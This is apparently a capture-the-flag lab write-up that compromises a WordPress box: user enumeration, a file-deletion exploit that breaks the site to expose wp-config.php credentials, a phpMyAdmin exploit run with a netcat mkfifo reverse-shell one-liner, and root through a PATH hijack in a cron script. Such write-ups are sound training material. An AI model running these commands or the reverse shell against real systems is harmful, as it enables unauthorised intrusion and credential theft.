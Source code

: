 # Shiftdel

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i go and look at the webserver and see that it's running with wordpress:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i launch a wp-scan and find the wordpress version:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and after googling we find some interesting stuff:

{% embed url="https://www.exploit-db.com/exploits/50456" %}

{% embed url="https://www.exploit-db.com/exploits/47690" %}

so i'm able to read files and apparently the onboarding page had everything i needed:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>IntraPersonalVision349</p></figcaption></figure>

So i found a password but no username that i'm sure of so i went and looked at my wpscan cheat sheets and tried to find something to enumerate users&#x20;

```
wpscan --url http://192.168.57.174 --enumerate u
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and i manage to login:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there is not much going on and the account is restrictive so the only way to go must be the version exploit we found earlier ->

While reading the code i'm starting to understand how WTF this box is and why the hell as a pentester should i break the website to get my RCE, maybe this is blackhat training IDK but whatever ->

So i needed to:

```
Usage:
  1. Login to wordpress with privileges of an author
  2. Navigates to Media > Add New > Select Files > Open/Upload
  3. Click Edit > Open Developer Console > Paste this exploit script
  4. Execute the function, eg: unlink_thumb("../../../../wp-config.php")
```

So i start off by uploading a random png to the app and editing it:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then i reload and the website is totally screwed:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now i can curl wp-config.php without encoding:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption><p>wordpress:ThinnerATheWaistline348</p></figcaption></figure>

With this i'm able to login in the php my admin instance:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I see the version and i can use this exploit:

{% embed url="https://www.exploit-db.com/exploits/50457" %}

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
python2 50457.py 192.168.57.174 8888 / wordpress ThinnerATheWaistline348 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.57 1234 >/tmp/f'
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking thought the linpeas output we spot nothing, maybe some cronjobs that are not default like the wpclean?

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

and looking at the script it's indeed the way to go:

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

the  **`PATH`** environment is vulnerable

* `~/bin` expands to `/var/www/html/wordpress/wp-content/uploads/bin` (where you have write access).
* **This means `rm` is looked up in `~/bin` before `/usr/bin/rm`!**
* If an attacker creates an **executable file named `rm`** inside `~/bin`, it will be executed **instead of the real `/usr/bin/rm`**.

and after waiting for a bit i got my reverse shell:

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>
